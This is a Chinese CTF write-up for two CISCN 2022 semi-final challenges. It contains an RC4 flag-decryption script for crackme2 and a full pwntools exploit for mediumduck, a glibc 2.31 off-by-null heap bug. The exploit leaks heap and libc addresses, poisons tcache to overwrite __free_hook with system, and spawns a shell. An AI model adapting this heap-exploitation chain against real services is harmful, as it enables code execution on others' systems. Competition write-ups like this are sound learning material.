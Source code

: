 ```yaml
---
title : "ciscn2022 华中赛区复赛部分wp"
layout: post
date: 2022-6-25
author: wsxk
comments: true
tags : [ctf_wp]
---
```


- [crackme2](#crackme2)
- [mediumduck](#mediumduck)
- [感想](#感想)



## crackme2<br>
简单的rc4加密<br>
```python
key = list(b"happygame")
key_len = len(key)
cypherBytes = []
keyBytes = []
flag = []
encrypt=[0xCD,0x52,0x74,0x7A,0x1E,0x8,0x8,0xE0,0x57,0x3B,0x18,0x99,0xAF,0x3D,0x1D,0x94,0x15,0x25,0x67,0x5B,0x64,0x53,0x1F,0x3B,0xDC,0xA2,0x46,0x36,0xD3,0xFD,0xBE,0x33]
for i in range(256):
    cypherBytes.append(i)
    keyBytes.append(key[i%key_len])

jump = 0
for i in range(256):
    jump = cypherBytes[i] + jump + keyBytes[i] & 0xFF
    tmp = cypherBytes[i]
    cypherBytes[i] = cypherBytes[jump]
    cypherBytes[jump] = tmp
print(cypherBytes,keyBytes)

i=0
v3_2 =0
for x in range(32):
    i = i+1&0xff
    tmp = cypherBytes[i]
    v3_2 = v3_2 + tmp + 0x88 & 0xFF
    t = (cypherBytes[v3_2] + tmp & 0xFF)
    cypherBytes[i] = cypherBytes[v3_2]
    cypherBytes[v3_2] = tmp
    flag.append(encrypt[x]^cypherBytes[t])

print(bytes(flag))
```

## mediumduck<br>
glibc2.31的off by null题型(个人感觉这次复赛的题目全tm是缝合怪？)<br>
先泄露heap基址和libc基址 ，然后overlap伪造一个堆并释放，使我们有能力控制tcache链表，将tcache链表设置成free_hook的地址，2.31并没有对此做check，但是要注意一点的是要额外free一个chunk，使得tcache记载的chunk为2，否则修改链表没有意义。<br>
```python
from pwn import *
io=remote("10.75.1.25",58011)
#io= process("./pwn",env={"LD_PRELOAD":"./libc.so.6"})
#io= process("./pwn")
#libc = ELF("./libc.so.6")

libc = ELF("libc.so.6")
def add():
    io.sendlineafter("Choice: ",str(1))

def delete(index):
    io.sendlineafter("Choice: ",str(2))
    io.sendlineafter("Idx: ",str(index))

def show(index):
    io.sendlineafter("Choice: ",str(3))
    io.sendlineafter("Idx: ",str(index))

def edit(index,size,content):
    io.sendlineafter("Choice: ",str(4))
    io.sendlineafter("Idx: ",str(index))
    io.sendlineafter("Size: ",str(size))
    io.sendafter("Content: ",content)

for i in range(15):
    add()
for i in range(7): #put into tcache
    delete(i)
add()
show(0)
io.recvline()
heap_base = u64((io.recv(6)).ljust(8,b"\x00"))-0x7a0
log.success("heap_addr:"+hex(heap_base))
# pause()
delete(0)
delete(8)
delete(9)
delete(7)

for i in range(10):
    add()
for i in range(7):
    delete(i)
show(8)
io.recvline()
libc_base = u64((io.recv(6)).ljust(8,b"\x00"))-0x1ecb80-0x60
log.success("libc:"+hex(libc_base))
libc.address= libc_base

edit(7,0x20,p64(0)+p64(0x1f1)+p64(heap_base+0x9a0)+p64(heap_base+0x9a0))
edit(8,0xf8,b"a"*0xf0+p64(0x1f0))
delete(9)

for i in range(7):
    add()
add()#put 9 into tcache
delete(0)
delete(9)
edit(7,0x20,p64(0)+p64(0x100)+p64(libc.sym["__free_hook"])+p64(heap_base+0x10))
add()#0
add()#9 free_hook
edit(9,8,p64(libc.sym["system"]))
edit(0,8,b"/bin/sh\x00")
delete(0)
io.interactive()
```

## 感想<br>
半年前来打比赛比现在做得多（😂，这题目质量，真的是不好评价，pwn题只有heap，其他啥都没有）



<!-- Google tag (gtag.js) -->
<script async src="https://www.googletagmanager.com/gtag/js?id=G-C22S5YSYL7"></script>
<script>
  window.dataLayer = window.dataLayer || [];
  function gtag(){dataLayer.push(arguments);}
  gtag('js', new Date());

  gtag('config', 'G-C22S5YSYL7');
</script>
